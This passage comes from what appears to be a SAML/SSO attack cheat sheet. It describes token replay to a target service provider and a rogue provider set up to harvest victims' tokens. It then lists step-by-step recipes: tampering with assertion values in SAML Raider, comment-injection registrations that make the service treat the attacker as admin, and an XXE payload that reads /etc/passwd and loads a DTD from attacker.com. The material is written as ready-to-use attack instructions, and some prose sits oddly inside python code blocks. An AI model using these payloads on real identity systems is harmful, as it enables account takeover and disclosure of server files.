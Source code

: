 ```python
The attacker (e.g. a worker in the developer team) does, however, have a legitimate account on SA, thus he can request a token from the IdP for this service. By sending tA to Starget (instead of SA ), the attack is performed. It is considered successful if tA is accepted by Starget; the attacker is thus logged in with the same account name as he has for SA and gets access to Starget's corresponding resources.

Exploit 2: Alternatively, the attacker can set up his own SP (Sbad ) offering some service for registered users (e.g., a weather forecast). To authenticate to Sbad, SSO is used and the attacker specifically federates it with the same IdP used by Starget . After that, the attacker lures the victim (a legitimate user of Starget ) to register with and authenticate to Sbad. Instead of or in addition to its usual service (weather forecast), Sbad stores all tokens in a database so that the attacker can access them. The attacker can then try to use the tokens to log in on Starget as the victim. The attack is considered successful, if an authentication token tbad issued for the victim for service Sbad is successfully verified on Starget .
```

5. **MISCELLANEOUS ATTACKS:**

```python
#. Simply Change Assertion Value to Victim:
1. Intercept SAML Response in SAML Raider
2. Change the User parameter or id to other user.
		Example: user@email.com to admin@email.com
3. Done, Forward the Request.

# SAML: Comment Injection I
1. Find Registeration page for SP
2. Use comment in payload like "admin<!--comment-->@email.com" while registering
3. SP think it as admin@email.com
4. Done, you are admin now ;)

# SAML: Comment Injection II
1. Find Registeration page for SP
2. Register as any user like "admin<!--comment-->@gmail.com" ==> Invalid signature
3. Try different "admin@gmail.com<!--comment-->.test" ==> valid signature
4. SP think it as admin@email.com
5. Done, you are admin now ;)
```

6. **XXE in SAML:**

```python
**NOTE:** You can try all XXE attack techniques here its not limited to this only.

# SIMPLE XXE ATTACK:
1. Intercept the SAML Response in SAML Raider
2. Add XXE payload in the beginning like below:
		<?xml version="1.0" encoding="UTF-8"?>
		 <!DOCTYPE foo [
	   <!ELEMENT foo ANY >
	   <!ENTITY    file SYSTEM "file:///etc/passwd">
	   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
3. Send the Request and check the response.
4. Done, escalate further!.
```
